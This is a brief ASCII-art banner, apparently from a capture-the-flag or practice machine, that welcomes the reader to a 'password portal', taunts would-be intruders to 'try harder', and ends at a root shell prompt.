(----------------------)
 (--------------------)
  (------------------)
   (----------------)
    (--------------)

     WELCOME TO THE
        PASSWORD
         PORTAL

        INTRUDER
         ALERT!

    (---------------)
   (-----------------)
  (-------------------)
 (---------------------)
(-----------------------)

 TO ROOT ME, YOU NEED TO

(-----------------------)

      TRY HARDER!!!

(-----------------------)
root@development:~# 

```
